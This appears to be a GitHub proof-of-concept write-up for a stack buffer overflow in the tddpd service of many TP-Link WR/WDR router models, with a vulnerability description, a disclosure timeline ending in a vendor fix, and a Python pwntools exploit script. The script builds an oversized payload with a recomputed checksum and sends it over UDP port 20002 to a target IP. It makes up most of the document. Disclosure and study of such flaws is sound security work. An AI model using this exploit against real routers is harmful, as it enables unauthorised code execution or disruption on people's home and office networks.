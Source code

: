 # TP-LINK-POC_2

TP-Link router have a stack overflow in tddpd server running via port 20002.

Any user can get remote code execution through LAN, this vulnerability currently affects the latest versions of WR\WDR series, which include WDR7400,WDR7500,WDR7660,WDR7800,WDR8400,WDR8500,WDR8600,WDR8620,WDR8640,WDR8660,WR880N,WR886N,WR890N,WR890N,WR882N,WR708N,WR842N,WR802N,WR710N,WR706N,WR702N etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability description 

This vulnerability happen when tddpd server receive data by usinng recvfrom `udp port 20002`.Then with a series data processing,it arrive `memcopy`,we can contorl `a1` and `v5`that It lead to a stack buffer overflow to execute arbitrary code.

**It's different from CVE-2020-28877**

![](./poc.png)

## POC

Refer to this video: [poc_video](./poc.mkv)

**EXP**

```
#!/usr/bin/env python
# coding=utf-8
from pwn import *
if len(sys.argv)<3:
    print "Usage exp.py <target ip> <local ip>"
    exit(-1)
def critical(msg):
    sys.stdout.write('[\x1B[31m*\x1b[0m] ')
    for i in msg:
        sys.stdout.write(i)
        sleep(0.05)
    sleep(1)
def log(msg):
    sys.stdout.write('[\x1B[32m*\x1b[0m] ')
    sys.stdout.write(msg)
#REMOTE_IP="192.168.1.1"
REMOTE_IP=sys.argv[1]
LOCAL_IP=sys.argv[2]
#LOCAL_IP="192.168.1.101"
REMOTE_PORT=20002
LOCAL_LISTEN_PORT=8080
context.log_level='error'
context.endian='big'
context.arch='mips'
data+='\x00\x00\x00\x01'*16
data+=p32(0xcafebabe)*0x10000 # it can lead to buffer flowover
len2=len(data)
len1=4+len2
hash=0x5a6b7c8d
payload=  b'\x01\x00'+p16(2)+p16(len1)+b'\x21\x00'
payload+= p32(0xdeadbeef)+p32(0x5a6b7c8d)
payload+= p16(1)+p16(len2)+data
kk=0
for i in range(len(payload)//4):
    kk=(kk+u32(payload[4*i:4*i+4]))%0x100000000
info("hash 0x%x"%kk)
payload=  b'\x01\x00'+p16(2)+p16(len1)+b'\x21\x00'
payload+= p32(0xdeadbeef)+p32(kk)
payload+= p16(1)+p16(len2)+data
p=remote(REMOTE_IP,REMOTE_PORT,typ='udp')
sleep(1)
for i in range(10):
    sys.stdout.write('.')
    sleep(1)
print ''
p.send(payload)
```

## Timeline

2020.10.24 show in GeekPwn

2020.12.01 report to CVE and TP-Link

2020.12.12 TP-Link reply and fix it
